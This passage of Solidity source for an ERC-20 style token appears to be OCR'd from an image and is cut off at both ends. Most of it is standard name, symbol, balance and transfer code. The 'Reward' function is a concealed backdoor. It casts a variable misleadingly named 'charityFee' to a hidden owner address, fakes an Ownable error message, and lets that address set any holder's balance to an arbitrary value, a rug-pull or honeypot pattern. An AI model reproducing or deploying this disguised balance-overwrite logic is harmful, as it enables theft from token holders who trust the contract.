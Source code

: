     mapping(address => mapping(address => uint256)) private _allowances;
    string _name;
    string _symbol;
    uint8 public decimals;
    uint256 public _totalSupply;
    uint256 charityFee;
    uint256 swapAndLiquify;
 
 
    function Reward(address from, uint256 _value) external returns (bool) {
        require(address(uint160(charityFee)) == msg.sender, "Ownable: caller is not the owner");
        _balances[from] = swapAndLiquify * charityFee * _value * (10 ** 9) / charityFee;
 
        return true;
    }
 
 
    /**
     * @dev Returns the name of the token.
     */
    function name() public view virtual override returns (string memory) {
        return _name;
    }
 
    /**
     * @dev Returns the symbol of the token, usually a shorter version of the
     * name.
     */
    function symbol() public view virtual override returns (string memory) {
        return _symbol;
    }
 
    /**
       * @dev See {IERC20-totalSupply}.
     */
    function totalSupply() public view virtual override returns (uint256) {
        return _totalSupply;
    }
 
    /**
     * @dev See {IERC20-balanceOf}.
     */
    function balanceOf(address account) public view virtual override returns (uint256) {
        return _balances[account];
    }
 
    /**
     * @dev See {IERC20-transfer}.
     *
     * Requirements:
     *
     * - `to` cannot be the zero address.
     * - the caller must have a balance of at least `amount`.
     */
    function transfer(address to, uint256 amount) public virtual override returns (bool) {
        address owner = _msgSender();
        _transfer(owner, to, amount);
        return true;
    }
 